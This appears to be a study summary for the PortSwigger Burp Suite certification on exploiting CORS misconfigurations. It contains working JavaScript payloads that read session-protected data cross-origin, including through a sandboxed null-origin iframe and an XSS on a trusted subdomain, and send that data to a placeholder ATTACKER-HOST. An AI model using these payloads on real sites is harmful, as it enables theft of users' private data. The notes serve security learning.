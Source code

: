 ##### PortSwigger BurpSuite Certification Summary
# Cross-Origin Resource Sharing
The same-origin policy allows a domain to issue requests to other domains, but not to access the responses. However, it is often necessary to relax this rule for the sake of functionality. 

If there is a functionality on the site with the header `Access-Control-Allow-Credentials: true` it is possible to send data cross-domain, i.e. to the attacker:
```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','VICTIM-HOST/sensitive-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='ATTACKER-HOST?key='+this.responseText;
	};
</script>
```
When the user loads this script, the sensitive data section on the victim host is accessed with the users session and the data sent to the attacker.

## Null Requests
In general, whitelisting is used to check if a cross-origin request should be accepted. For developing reasons, the value `null` is used and allows for sending the origin `null`. One way to trigger such a null-request is sending a suspicious request, such as:
* Serialized data
* The `file:` protocol
* Sandboxed cross-origin requests

A sandboxed environment can be created with iframes:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','VICTIM-HOST/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	location='ATTACKER-HOST?key='+this.responseText;
	};
</script>"></iframe>
```

## XSS Vulnerability in Trusted Site
If a trusted website has a XSS vulnerability, it can be used to make the request that extracts sensitive data:
```
https://subdomain.VICTIM-HOST/?xss=<script>cors-stuff-here</script>
```
Example:
```
<script>
document.location="http://subdomain.VICTIM-HOST/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','VICTIM-HOST/sensitive-victim-data',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKER-HOST?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```